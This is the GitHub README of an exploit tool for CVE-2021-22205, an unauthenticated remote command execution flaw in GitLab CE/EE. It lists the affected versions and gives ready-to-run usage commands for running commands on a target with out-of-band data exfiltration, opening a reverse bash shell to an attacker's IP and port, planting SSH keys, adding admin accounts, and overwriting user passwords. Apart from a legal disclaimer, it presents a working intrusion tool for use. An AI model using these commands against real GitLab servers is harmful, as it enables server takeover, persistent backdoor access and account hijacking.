 # CVE-2021-22205

GitLab CE/EE Preauth RCE using ExifTool

*This project is for learning only, if someone's rights have been violated, please contact me to remove the project, and the last **DO NOT USE IT ILLEGALLY** If you have any illegal behavior in the process of using this tool, you will bear all the consequences yourself. All developers and all contributors of this tool do not bear any legal and joint liabilities*

## Description

An issue has been discovered in GitLab CE/EE affecting all versions starting from 11.9. GitLab was not properly validating image files that were passed to a file parser which resulted in a remote command execution.

Affect Versions:

- \>=11.9, <13.8.8
- \>=13.9, <13.9.6
- \>=13.10, <13.10.3

## Features

- Gitlab version detection through the hash in Webpack manifest.json 

- Automatical out-of-band interactions with DNSLog & PostBin
- Support Reverse Bash Shell / Append SSH Key to authorized_keys
- Support ENTER to modify and restore gitlab user password

## Usage

```bash
🐚 ››› python CVE-2021-22205.py

      ░░░░▐▐░░░  CVE-2021-22205
 ▐  ░░░░░▄██▄▄  GitLab CE/EE Unauthenticated RCE using ExifTool
  ▀▀██████▀░░  Affecting all versions starting from 11.9
  ░░▐▐░░▐▐░░  security.humanativaspa.it/gitlab-ce-cve-2021-22205-in-the-wild
 ▒▒▒▐▐▒▒▐▐▒  github.com/inspiringz/CVE-2021-22205

Usage:
    python3 CVE-2021-22205.py -u site_url -m detect        # gitlab version & vuln detect
    python3 CVE-2021-22205.py -u site_url -m rce1 'id'     # rce (echo via postbin oob) 
    python3 CVE-2021-22205.py -u site_url -m rce2 'id'     # rce (echo via write file) *
    python3 CVE-2021-22205.py -u site_url -m rev ip port   # reverse bash shell
    python3 CVE-2021-22205.py -u site_url -m ssh git/root  # append ssh authorized_keys
    python3 CVE-2021-22205.py -u site_url -m add user pass # add manager account *
    python3 CVE-2021-22205.py -u site_url -m mod user      # modify specified user's password => P4ss@GitLab
    python3 CVE-2021-22205.py -u site_url -m rec user      # restore specified user's original password
```

- The `site_url` parameter format: http[s]://<domain|ip>[:port]/, such as: https://example.com:9000/
- Methods(rce2,add) marked by `*` is unstable, may not work :(
- You can modify the script content according to the actual environment

## Screenshot

Detect:

![image-20211111130659726](images/image-20211111130659726.png)

RCE(Echo via PostBin OOB):

![image-20211111132623307](images/image-20211111132623307.png)

Reverse Bash Shell:

![image-20211111131442470](images/image-20211111131442470.png)

Append SSH Key to authorized_keys:

![image-20211111133555010](images/image-20211111133555010.png)

Gitlab user password modification and restoration:

![image-20211111132115090](images/image-20211111132115090.png)

## Reference

- https://github.com/projectdiscovery/nuclei-templates/blob/637eec3efac6eb384742c7aaa4e7d14f3392ede9/cves/2021/CVE-2021-22205.yaml
- https://gitlab.com/gitlab-org/cves/-/blob/master/2021/CVE-2021-22205.json
- https://github.com/righel/gitlab-version-nse
